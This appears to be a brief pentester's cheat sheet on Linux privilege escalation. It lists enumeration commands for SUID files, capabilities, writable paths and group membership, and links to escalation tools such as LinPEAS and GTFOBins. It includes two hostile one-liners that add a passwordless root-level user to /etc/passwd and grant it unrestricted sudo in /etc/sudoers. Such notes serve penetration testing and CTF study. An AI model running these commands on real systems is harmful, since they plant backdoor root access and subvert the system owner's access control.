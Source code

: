 # Privilege Escalation

## Linux
- `getcap -r / 2>/dev/null`
- `find / -perm -u=s -type f 2>/dev/null`
    - Harden: `chmod u-s /usr/bin/find`
- `find -writable 2>/dev/null | cut -d "/" -f 2 | sort -u`
- `find / -writable 2>/dev/null | grep home | cut -d "/" -f 2,3 | sort -u`
- `sudo -V` to check sudo version, which might be vulnerable.
- `echo "vickie::0:0:System Administrator:/root/root:/bin/bash" >> /etc/passwd`
- `echo "vickie ALL=(ALL) NOPASSWD:ALL" >> /etc/sudoers`
- `groups`
    - `docker` (https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-security/docker-breakout-privilege-escalation)
- `find / -type f -executable -group users 2>/dev/null`
    - To find a file that can be executed by a specific group.

https://gtfobins.github.io/
<hr>

### Basic Linux enumeration
https://cyberlab.pacific.edu/resources/linux-enumeration-cheat-sheet

+ linpeas.sh

**Get Privilege Escalation vectors:**
- LinPeas: https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS
- LinEnum: https://github.com/rebootuser/LinEnum
- LES (Linux Exploit Suggester): https://github.com/mzet-/linux-exploit-suggester
- Linux Smart Enumeration: https://github.com/diego-treitos/linux-smart-enumeration
- Linux Priv Checker: https://github.com/linted/linuxprivchecker

## Windows
_nothing yet_
